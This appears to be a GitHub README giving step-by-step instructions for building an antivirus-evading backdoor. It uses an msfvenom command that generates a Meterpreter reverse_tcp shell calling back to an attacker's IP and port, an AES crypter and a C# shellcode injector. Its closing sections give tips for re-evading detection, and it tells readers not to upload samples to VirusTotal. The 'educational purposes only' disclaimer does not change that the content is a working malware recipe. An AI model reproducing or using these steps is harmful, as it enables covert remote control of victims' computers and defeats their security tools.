 # 🔒 Generate **FUD** backdoor with a AES **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

#DONT UPLOAD TO VIRUS TOTAL
```
https://antiscan.me/scan/new/result?id=i55PH2FhUHID
```

## Clone the repository
```
Download (https://github.com/tr1xongithub/fud-backdoor/)
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  -i 10 LHOST=(IP) LPORT=(PORT) -f csharp 
```

## Encode the ShellCode With the AES Encryption

```
open the shelloader and add the bytes to the AESEncrytion Tool
```

## Add the crypted shellcode on Program.cs in AESEncrptor
Now that you have the shellcode you need to add it on the Program.cs file just like this:
```
byte[] buf = new byte[] { /*shellcode*/ };
```
Now Run the Project

## Compile The Backdoor
Once You Get the Encoded Shellcode open the AESInjector Project and paste the shellcode into
```
byte[] duffer = new byte[] { /*shellcode*/ };
```
Then Compile it as x64 in visual Studios

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What if it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!

